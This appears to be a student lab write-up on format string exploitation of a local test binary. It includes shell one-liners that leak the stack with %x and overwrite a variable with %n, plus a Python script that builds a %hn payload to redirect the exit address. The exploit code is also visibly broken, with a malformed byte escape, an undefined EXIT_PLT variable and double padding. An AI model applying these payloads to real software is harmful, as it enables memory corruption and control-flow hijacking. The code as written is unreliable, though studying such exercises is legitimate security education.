 # Problem II

This writeup describes solve problem 2.

Mainly used printf() format string vunerability to exploit the problem.


# Problem 1: Overwrite a local variable.

The main idea behind using printf() exploit is that, printf() is defined as a function of variable length arguments.

we can use ```'%x'``` to print the contents of the stack immediately on top printf(). We can also use ```'%n'``` to write the number of bytes into a stack.

If we want to overwrite a local variable, we would need to find the address of that local variable. Then we can use a python input like,
```
setarch `arch` -R ./victim "`python -c "print 'AAAA '+'%x '*100"`"

```
Using this input format, we can see where in the stack the values ```41414141 25207825 20782520 78252078 25207825 20782520 78252078 25207825``` are. Here ```0x41414141``` represents ```AAAA``` and ```0x782520``` repeating pattern represents ```'%x '```.

With that information in mind, we need to figure out the necessary padding. Because lengths of 64bit memeory address are 64bit long. Although the variable memory address might be like ```0x7fffffffd9e4```. Here the memory address is missing 2 leading 0s. We use little-endian format to pad the memory address.
```\xe4\d9\xff\xff\xff\xff\x00\x00```.

We can use
``` 
setarch `arch` -R ./victim "`python -c "print 'AAAA '+'\xe4\d9\xff\xff\xff\xff\x00\x00'+'%x '*100+'%n '"`"

```
to set the number of bytes and modify the value.

# Problem 2 : Modify the retun address

If we want to call a function that is not being called in the main function, first we can use in gdb ```disas outsideFunc``` to get the the starting address of the outside function.
Then, we can use ```disas main``` to get the exit function address of the ```main function```. 

We can then use python program, that we can use to build the exploit string.
```

import struct

outsideFunctionAddress = 0x5555555551a9
EXIT_Address= 0x555555551040

def pad(s):
    return s+"X"*(512-len(s)-16)
exploit=""
exploit += "BBBBCCCC"
exploit += "%{}x".format(0x676-len(exploit))
exploit += "%68$hn"
exploit = pad(exploit)
exploit += struct.pack("Q", EXIT_PLT)
exploit += struct.pack("Q", EXIT_PLT+2)

print pad(exploit)

```
If we feed this output string to the code it would replace the exit address function with the outsideFunctionAddress.

